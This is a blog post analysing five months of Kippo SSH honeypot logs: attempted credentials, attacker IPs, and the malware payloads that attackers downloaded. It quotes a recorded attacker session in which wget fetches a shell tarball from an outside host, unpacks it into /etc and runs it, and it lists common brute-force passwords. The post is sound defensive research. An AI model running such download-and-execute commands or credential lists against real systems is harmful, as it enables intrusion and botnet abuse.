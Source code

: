 ```yaml
---
tags:
- honeypot
- hacking
- ssh
- kippo
date: 2014-04-27T00:00:00Z
title: 'Running a Kippo Honeypot: Part two'
url: /2014/04/27/running-a-kippo-honeypot-part-two/
---
```


Over a year has now passed since I [started playing](http://hackerific.net/2013/04/15/running-a-kippo-honeypot/) with the [Kippo](https://code.google.com/p/kippo/) honeypot, so a quick second post about my findings is _long_ overdue!

I ran Kippo on an overpriced cheap VPS with two-IPs pretty much continuously from between April and September 2013. That's 5 months (154 days). I wrote a short post near the beginning of that time. In my original post on this subject I waffled a bit about how almost all of the attacking traffic I saw was from Chinese IPs and mentioned a few attempted passwords with high entropy. In this post I want to summarise what I saw over the full 5 month period.

## Credentials

First, credentials. The honeypot was configured with a single user account `root` and the password `123456`.

In the time the honeypot was running, I logged 71,264 login attempts – about 463 per day (not all that many, really), and of those attempts 395 were successful.

The most attempted username was `root`, and sorted by number of attempts, the top ten usernames were:

    44193 root
      819 bin
      657 test
      554 oracle
      343 nagios
      240 user
      227 postgres
      189 guest
      187 admin
      157 apache
    
It's interesting that `oracle`, `nagios` and `postgres` all appear more frequently than `apache` or `www-data` (which is even further down the list). Could these indicate a general lack of good security practices on some database and monitoring servers? In that case, where's MySQL? 
    
Counts of password attempts were spread more evenly than usernames, and the most attempted passwords were `changeme`, `123456` and `password`. The list below shows the top ten:
    
    1661 changeme
    1475 123456
    1023 password
     930 1234
     839 abc123
     627 test
     599 12345
     420 123
     327 qwerty
     227 111111
     
This really has to be about the worst possible wordlist. In all, the logs contain login attempts with 6,122 distinct usernames and 18,561 different passwords.

### Strange credentials

I wrote about some of the higher entropy passwords in my last post, highlighting a few of the more interesting strings, but this time some were even more strange. 

Some of the password strings with the highest entropy, according to [Data::Password::Entropy](https://metacpan.org/pod/Data::Password::Entropy) are:

      khaled-dico-ana-wla-akhou-charmouta-feh-kess-ekhtak-bi-ayri-a5ou-a7beh
      sss!Qazxsw22243s2lakeprostsssz1,zPlastaicatraglake
      efwef58sdf2cvsd1*!#&$#_)claudia69iLiE
      Fum4tulP0@t3Uc1d3R4uD3T0t!@#$%^%^&*?
      khaled-dico-ana-wla-akhou-charmouta-tfeh-kess-ekhtak-bi-ayri-a5ou-a7beh
      1$EdkQIoSn$T3gzKLxlcxF7tsTCFqC8M
      209*7fdlkdf%0@)(fUF786__fdk^%^Djfdsahfdsf886D&S%*fd
      dragomirdumitru1q2w3e4r5tsfgdfhvd!Q@W#E$Rsdfdf
      B*(&%^#$SSH?M?a+k3f123!^*backIleSSH@q!@#D
      ortega.123#TradeLinuxKi!l|iN6#Th3h03$%nix@NdR3b!irD


Bizarre! I find it hard to believe that real-life systems are compromised using these passwords, so I suspect that as I said in my previous post they're either set by other tools, or perhaps they're some sort of strange meme which is gradually propagating through script kiddie's word lists. 

I also find the idea that they're '[vanity strings](http://rud.is/b/2012/06/28/honeypot-analytics/)' unlikely, but like the idea that there are thousands of Chinese script kiddies running SSH scanners solely to get into geek's blog posts. 

## Attacker's IPs

As before, Chinese IPs are dominant, but there's also a significant amount of traffic from South America and from cheap hosting companies elsewhere. Here's a list of the top ten individual IPs and country information:

    7129 219.235.230.197  China
    2978 218.85.135.29    China
    2230 218.200.117.241  China
    2153 61.145.121.83    China
    2153 177.86.68.2      Brazil
    2150 188.40.92.147    Germany
    1883 200.54.114.51    Chile
    1847 183.180.32.234   Japan
    1556 218.104.145.16   China
    1438 61.139.54.71     China

I don't think there's anything surprising there.

## Downloads & Sessions

There wasn't much download activity, which is interesting and probably indicates that lots of SSH scanners just run unattended on large blocks and their owners check the results later. Or it could indicate a lack of realism in my honeypot setup.

Over the entire time the honeypot was running there were 25 downloads in total. Most of these were tarballs of scanning tools, but four of the 25 were cachefly test files and Microsoft service packs. In these cases I think the attackers were probably intending to use the system in DoS attacks, and were using the big downloads to judge available bandwidth. 

Here's an example terminal session:

    wget http://cachefly.cachefly.net/100mb.test
    cd /etc; wget http://rootnr1.net76.net/shell.tgz; tar xvf shell.tgz; rm -rf shell.tgz; cd rc.9; chmod +x *
    ./go
    
… at this point kippo starts playing games with the user and they invariably log off but I still have the files to play with. In this case, the payload contains several shell and perl scripts and a lot of pre-compiled binaries, all of which are unpacked into a directory called `rc.9`.     

The perl scripts include [Hawker Hunter v2.0](http://pastebin.com/HVpaBr9u), an IRC bot with port scanning and DoS capabilities and another DoS tool which contains the string "GlobaL Team atack victim" (sic).

Running strings on the binaries reveals some interesting, if dated things. For example, one of the files `h` contains:

    Hide - Process Faker, by Schizoprenic Xnuxer Research (c) 2002
    
And another `stream` contains:

    stream.c v1.0 - TCP Packet Storm
    
Which, according to [this mailing list post](http://packetstormsecurity.com/files/10836/stream-dos.txt.html) from 2000 might exploit an old DoS vulnerability in FreeBSD, Solaris and Linux. It's not clear to me if this is still relevant on modern systems, and if not this payload could have been around for ages. In fact, one of the most noticeable aspects of the payloads I saw was their age; everything's old!.

## Shall we play a game?

Other payloads I saw included a couple of backdoored SSH daemons, one of which includes the amazingly named `openssh-3.6.1p2-backdoor.patch`, and a few different IRC bots and bouncers, such as PyBNC.

The contents of these other downloads are interesting enough to be the subject of another post (in another year?!), so I'll leave with this recorded terminal session:

<script type="text/javascript" src="https://asciinema.org/a/8346.js" id="asciicast-8346" async></script>








    

